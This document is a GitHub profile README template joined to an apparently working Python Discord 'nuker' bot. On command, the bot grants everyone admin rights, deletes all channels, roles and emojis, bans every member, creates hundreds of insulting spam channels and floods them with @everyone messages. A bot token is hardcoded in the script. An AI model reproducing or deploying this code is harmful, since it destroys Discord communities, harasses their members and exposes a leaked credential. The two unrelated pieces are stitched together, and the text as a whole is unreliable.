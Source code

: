 - 👋 Hi, I’m @KushalOP
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
KushalOP/KushalOP is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->import discord
from discord.ext import commands
import random
from discord import Permissions
from colorama import Fore, Style
import asyncio

token = ODgyNjYwMzYwNjQ0MDY3Mzcw.YS-nhQ.r7qJ_yUA-ZZzvlCBjpfy7tg5wZo


SPAM_CHANNEL =  ["Nuked by kushal,nuked,god,god nuked u baby,go fuck off,nuked by kushal,go bitch,rip ,shreyansh is god"]
SPAM_MESSAGE = ["@everyone Server Hacked By kushal @here"]

client = commands.Bot(command_prefix="ms!")


@client.event
async def on_ready():
   print(''' 
   
███╗░░██╗██╗░░░██╗██╗░░██╗███████╗  ██████╗░░█████╗░████████╗
████╗░██║██║░░░██║██║░██╔╝██╔════╝  ██╔══██╗██╔══██╗╚══██╔══╝ 
██╔██╗██║██║░░░██║█████═╝░█████╗░░  ██████╦╝██║░░██║░░░██║░░░ 
██║╚████║██║░░░██║██╔═██╗░██╔══╝░░  ██╔══██╗██║░░██║░░░██║░░░ 
██║░╚███║╚██████╔╝██║░╚██╗███████╗  ██████╦╝╚█████╔╝░░░██║░░░  
╚═╝░░╚══╝░╚═════╝░╚═╝░░╚═╝╚══════╝  ╚═════╝░░╚════╝░░░░╚═╝░░░ 


 ''')
   await client.change_presence(activity=discord.Game(name="JOKER OP NUKER"))

@client.command()
@commands.is_owner()
async def stop (ctx):
    await ctx.bot.logout()
    print (Fore.GREEN + f"{client.user.name} has logged out successfully." + Fore.RESET)

@client.command()
async def nuke (ctx):
    await ctx.message.delete()
    guild = ctx.guild
    try:
      role = discord.utils.get(guild.roles, name = "@everyone")
      await role.edit(permissions = Permissions.all())
      print(Fore.MAGENTA + "I have given everyone admin." + Fore.RESET)
    except:
      print(Fore.GREEN + "I was unable to give everyone admin" + Fore.RESET)
    for channel in guild.channels:
      try:
        await channel.delete()
        print(Fore.MAGENTA + f"{channel.name} was deleted." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{channel.name} was NOT deleted." + Fore.RESET)
    for member in guild.members:
     try:
       await member.ban()
       print(Fore.MAGENTA + f"{member.name}#{member.discriminator} Was banned" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{member.name}#{member.discriminator} Was unable to be banned." + Fore.RESET)
    for role in guild.roles:
     try:
       await role.delete()
       print(Fore.MAGENTA + f"{role.name} Has been deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{role.name} Has not been deleted" + Fore.RESET)
    for emoji in list(ctx.guild.emojis):
     try:
       await emoji.delete()
       print(Fore.MAGENTA + f"{emoji.name} Was deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{emoji.name} Wasn't Deleted" + Fore.RESET)
    banned_users = await guild.bans()
    for ban_entry in banned_users:
      user = ban_entry.user
      try:
        await user.unban("𝐘𝐨𝐮𝐫_𝐔𝐬𝐞𝐫")
        print(Fore.MAGENTA + f"{user.name}#{user.discriminator} Was successfully unbanned." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{user.name}#{user.discriminator} Was not unbanned." + Fore.RESET)
    await guild.create_text_channel("NUKED BY MASTER SHREYANSH")
    for channel in guild.text_channels:
        link = await channel.create_invite(max_age = 0, max_uses = 0)
        print(f"New Invite: {link}")
    amount = 500
    for i in range(amount):
       await guild.create_text_channel(random.choice(SPAM_CHANNEL))
    print(f"nuked {guild.name} Successfully.")
    return

@client.event
async def on_guild_channel_create(channel):
  while True:
    await channel.send(random.choice(SPAM_MESSAGE))

client.run(token, bot=True)
